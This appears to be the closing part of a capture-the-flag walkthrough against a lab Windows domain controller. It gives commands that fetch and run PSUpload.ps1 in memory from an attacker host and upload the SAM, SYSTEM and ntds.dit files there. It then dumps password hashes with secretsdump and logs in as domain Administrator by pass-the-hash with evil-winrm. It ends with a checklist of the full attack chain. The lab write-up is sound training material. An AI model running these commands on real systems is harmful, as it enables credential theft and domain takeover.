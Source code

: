 Now we have all the files we need, we need to upload the files back to our attack host. To do that, we need to use PSUpload.ps1. First transfer the ps file to the target with iwr. Then:

```bash
Import-Module PSUpload.ps1

iex (iwr 'http://10.10.14.118:1234/PSUpload.ps1')  #we have to load the following in memory

#now we have to start a server
python3 -m venv myenv
source myenv/bin/activate
pip3 install uploadserver
python3 -m uploadserver 1234

Invoke-FileUpload -Uri http://10.10.14.118:1234/upload -File C:\Users\svc_backup\Desktop\SAM.SAV

Invoke-FileUpload -Uri http://10.10.14.118:1234/upload -File C:\Users\svc_backup\Desktop\SYSTEM.SAV

Invoke-FileUpload -Uri http://10.10.14.118:1234/upload -File C:\Users\svc_backup\Desktop\ntds.dit
```

Now we can dump the hashes back on our attack host

```bash
../tools/secretsdump.py -ntds ntds.dit -system SYSTEM.SAV -sam SAM.SAV LOCAL > nt-hashes.txt
```

Now we open the hash file and search for Administrator, there’s two hashes, one from SAM which is the local admin hash and one is the domain admin from ntds.dit; we want the latter. Now we can just login again with evil-winrm

```bash
evil-winrm -i 10.129.252.166 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
```

- logged in null smb share for userlist in profiles$
- kerbrute userlist to find valid users
- [GetNPUsers.py](http://GetNPUsers.py) to grab TGT hash
- hashcat crack password
- bloodhound to find user rights + exploit
- exploited SeBackupPrivilege with diskshadow
- file exfiltration with PSUpload.ps1 and uploadserver
- secretsdump to dump NThash
- login with evil-winrm pass-the-hash
